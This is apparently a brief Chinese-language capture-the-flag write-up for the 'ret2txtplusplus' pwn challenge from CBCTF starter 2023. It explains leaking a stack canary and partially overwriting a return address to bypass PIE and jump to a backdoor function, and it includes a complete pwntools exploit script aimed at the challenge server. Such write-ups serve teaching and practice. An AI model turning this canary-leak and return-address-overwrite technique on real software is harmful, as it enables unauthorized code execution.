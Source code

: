 # ret2txtplusplus

from cbctf starter 2023

## 文件分析

下载`ret2txtpp`, 保护全开  
ghidra分析为64位程序

## 解题思路

总体思路和上一题一致，但是加了pie，但我们又没法获取  
不过这次在vuln函数中运行，那么只要改掉最后2个字节就可以跳转到`back_door`（本来是跳转到main）  
~~如果rsp & 0xf != 0就没辙了~~

注意最后不能用sendline，因为会多填充一个\n导致地址错误  
查看pwntools源码，发现send后会flush，也可以结束读取

## EXPLOIT

```python
from pwn import *
sh = remote(???, 10015)
sh.sendline(b'0'*0x17 + b'.')
sh.recvuntil(b'.\n')
canary = u64(b'\0' + sh.recvline()[:7])
sh.send(b'0'*0x18 + p64(canary) + b'0'*8 + p16(0x08f4))
sh.interactive()
```

Done.
